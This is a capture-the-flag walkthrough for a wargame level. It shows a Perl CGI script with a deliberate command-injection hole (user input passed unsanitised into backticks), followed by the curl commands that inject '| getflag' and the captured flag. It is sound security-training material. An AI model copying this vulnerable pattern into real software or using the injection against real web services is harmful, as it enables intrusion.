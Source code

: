 # level04

- We log as `level04`

- We found two perl scripts, both named `level04.pl` , the first in the `home/user/level04` and the other one in `/var/www/level04`

- The content of both file is identical:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
	$y = $_[0];
	print `echo $y 2>&1`;
}
x(param("x"));
```
- The permissions are different for each files:

	`home/user/level04/level04.pl:`
	>`-rwsr-sr-x 1 flag04 level04 152 Mar 5 2016 level04.pl`

	`var/www/level04.pl:`
	>`-r-xr-x---+ 1 flag04 level04 152 Aug 17 22:43 level04.pl`

- The seconf file has extended permissions:
```
# file: level04.pl
# owner: flag04
# group: level04
user::r-x
group::r-x
group:www-data:r-x
mask::r-x
other::---
```

- With all those elements we can conclude that:
	- `#!/usr/bin/perl` - This script is written in perl
	- `use CGI qw{param};` - It is a CGI
	- `group:www-data:r-x` - It is used by a web service
	- `x(param("x"));` - It takes a parameter `x` and pass it to the function `x`
	- `$y = $_[0];` - It stores the parameter in `y`
	- `print 'echo $y 2>&1';` - `y` is run through `echo` without any parsing
	- `# localhost:4747` - The web service is running on port `4747`

- This means the parameter of this CGI is probably vulnerable to command injection

- We try executing the CGI using `curl -X POST -d "x= $PWD" http://localhost:4747`

- We can read `/var/www/level04` the `PWD` environment variable was successfully passed to `echo`

- We try injecting the `getflag` command using a pipe: `curl -X POST -d "x= | getflag" http://localhost:4747`

- We get the flag: `ne2searoevaevoem4ov4ar8ap`
